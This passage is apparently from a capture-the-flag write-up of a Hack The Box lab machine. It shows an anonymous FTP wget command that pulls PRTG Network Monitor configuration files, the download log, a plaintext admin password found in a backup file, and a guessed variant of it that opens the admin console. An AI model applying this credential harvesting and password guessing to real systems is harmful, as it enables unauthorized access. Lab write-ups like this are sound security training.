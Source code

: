 Obtain the configuration files

```bash
┌──(root㉿kali)-[/home/kali/Documents/htb/10.10.10.152]
└─# wget ftp://anonymous:anonymous@10.10.10.152/"programdata/Paessler/PRTG Network Monitor/PRTG Configuration.*"
--2023-04-22 21:49:43--  ftp://anonymous:*password*@10.10.10.152/programdata/Paessler/PRTG%20Network%20Monitor/PRTG%20Configuration.*
           => ‘.listing’
Connecting to 10.10.10.152:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD (1) /programdata/Paessler/PRTG Network Monitor ... done.
==> PASV ... done.    ==> LIST ... done.

.listing                               [ <=>                                                          ]     889  --.-KB/s    in 0s      

==> PASV ... done.    ==> LIST ... done.

.listing                               [ <=>                                                          ]     889  --.-KB/s    in 0s      

2023-04-22 21:49:45 (75.5 MB/s) - ‘.listing’ saved [1778]

Removed ‘.listing’.
...
--2023-04-22 21:49:50--  ftp://anonymous:*password*@10.10.10.152/programdata/Paessler/PRTG%20Network%20Monitor/PRTG%20Configuration.old.bak
           => ‘PRTG Configuration.old.bak’
==> CWD not required.
==> PASV ... done.    ==> RETR PRTG Configuration.old.bak ... done.
Length: 1153755 (1.1M)

PRTG Configuration.old.bak         100%[=============================================================>]   1.10M   247KB/s    in 5.2s    

2023-04-22 21:49:56 (215 KB/s) - ‘PRTG Configuration.old.bak’ saved [1153755]
```

Inside "PRTG Configuration.old.bak",&#x20;

```bash
140             <dbpassword>
141           <!-- User: prtgadmin -->
142           PrTg@dmin2018
143             </dbpassword>
```

Trying out the creds on the admin page, I was unable to login.&#x20;

However, since the credentials were found in the backup file, I decided to increment the year from 2018 to 2019.

Therefore, using the new creds (prtgadmin:PrTg@dmin2019), I was able to login to the administrator console.
